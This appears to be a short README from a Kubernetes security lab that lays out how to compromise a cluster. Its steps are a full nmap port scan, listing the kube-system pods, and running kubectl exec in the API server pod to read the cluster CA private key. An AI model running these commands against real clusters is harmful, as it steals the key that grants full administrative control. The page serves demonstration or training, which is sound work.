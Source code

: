 # SSH to Cluster Admin

### Compromising the cluster

1. Scan all ports on node `nmap [CLUSTERIP] -p-`
2. Get list of pods in kube-system namespace `kubectl get po -n kube-system` 
3. Grab the certificate`kubectl -n kube-system exec [API_SERVER_POD] -- cat /etc/kubernetes/pki/ca.key`
4. Profit!
